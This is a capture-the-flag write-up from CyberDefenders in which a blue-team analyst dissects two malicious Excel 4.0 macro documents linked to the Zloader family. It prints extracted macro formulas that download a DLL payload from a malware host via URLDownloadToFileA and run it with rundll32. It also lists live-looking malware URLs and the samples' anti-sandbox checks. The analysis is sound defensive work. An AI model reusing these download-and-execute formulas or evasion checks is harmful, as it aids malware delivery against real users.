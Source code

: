 ```yaml
---
title: XLM Macros Writeup - CyberDefenders
description: Recently, we have seen a resurgence of Excel-based malicous office
  documents. Howerver, instead of using VBA-style macros, they are using older
  style Excel 4 macros. This changes our approach to analyzing these documents,
  requiring a slightly different set of tools. In this challenge, you, as a
  security blue team analyst will get hands-on with two documents that use Excel
  4.0 macros to perform anti-analysis and download the next stage of the attack.
author: Naimul Islam
date: 2023-08-04
tags:
  - post
  - featured
image: https://cyberdefenders.org/media/terraform/XLM%20Macros/XLM_Macros.jpg
imageAlt: XLM
---
```


> Recently, we have seen a resurgence of Excel-based malicous office documents. Howerver, instead of using VBA-style macros, they are using older style Excel 4 macros. This changes our approach to analyzing these documents, requiring a slightly different set of tools. In this challenge, you'll get hands-on with two documents that use Excel 4.0 macros to perform anti-analysis and download the next stage of the attack.

# Sample 1

## 1. What is the document decryption password?

First check if the file is encrypted.

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample1.bin  
Version: 5.0.1
sample1.bin: encrypted
```

Yes. Now get the pass.

```
root@1ae0377cd588 /shared# msoffcrypto-crack.py sample1.bin  
Password found: VelvetSweatshop
```

## 2. This document contains six hidden sheets. What are their names? Provide the value of the one starting with S.

After getting the password, I decrypted the file.

```
msoffcrypto-tool -p VelvetSweatshop sample1.bin dec-sample1.bin
```

Got sheet information by using oledump with plugin_biff.

```
root@06c2f2076f07 /shared# oledump.py -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x" dec-sample1.bin  
 1:       114 '\x01CompObj'
 2:       368 '\x05DocumentSummaryInformation'
 3:       200 '\x05SummaryInformation'
 4:     92329 'Workbook'
              Plugin: BIFF plugin  
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - SOCWNEScLLxkLhtJp
                0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - OHqYbvYcqmWjJJjsF
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro2
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro3
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro4
                0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro5
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet2
                0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet3
[...]
```

## 3. What URL is the malware using to download the next stage? Only include the second-level and top-level domain. For example, xyz.com.

```
root@1ae0377cd588 /shared# strings dec-sample1.bin | re-search.py -n url
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe~
http://rilaer.com/IfAmGZIJjbw
http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe
```

## 4. What malware family was this document attempting to drop?

Found the sample on malwarebazar

![](https://imgur.com/ZlqOmcd)

# Sample 2

## 5. This document has a very hidden sheet. What is the name of this sheet?

First, checking if the file is encrypted:

```
root@06c2f2076f07 /shared# msoffcrypto-tool -t -v sample2.bin
Version: 5.0.1
sample2.bin: not encrypted
```

Using oledump with plugin_biff plugin:

```
oledump.py sample2.bin -p ~/DidierStevensSuite/plugin_biff.py --pluginoptions "-x"
```

```
[...]
0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet1
0085     18 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden - CSHykdYHvi
[...]
```

## 6. This document uses reg.exe. What registry key is it checking?

```
[...]
'0207    131 STRING : String Value of a Formula - b\'"VBAWarnings"=dword:00000002\''
[...]
```

## 7.  From the use of reg.exe, what value of the assessed key indicates a sandbox environment?

0x1

## 8. This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?

![](https://imgur.com/undefined)

(part of olevba output)

All these checks are used by the malware to see if its running in a sand boxed environment. Using this [reference](https://malware.news/t/excel-4-macros-get-workspace-reference/38892), This is what the highlighted keys check:

**GET.WORKSPACE(2):** Version of Excel Running
**GET.WORKSPACE(13):** Workspace Width
**GET.WORKSPACE(14):** Workspace Height
**GET.WORKSPACE(19):** If a mouse is present
**GET.WORKSPACE(42):** If Machine can play Sound

## 9. This document checks for the name of the environment in which Excel is running. What value is it using to compare?

Windows

```
FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
```

## 10. What type of payload is downloaded?

DLL

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 11. What URL does the malware download the payload from?

https[://]ethelenecrace[.]xyz/fbb3

```
FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
```

## 12. What is the filename that the payload is saved as?

bmjn5ef.html

## 13. How is the payload executed? For example, mshta.exe

rundll32.exe

```
FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

## 14. What was the malware family?

After submitting the md5 on VT, got zloader.
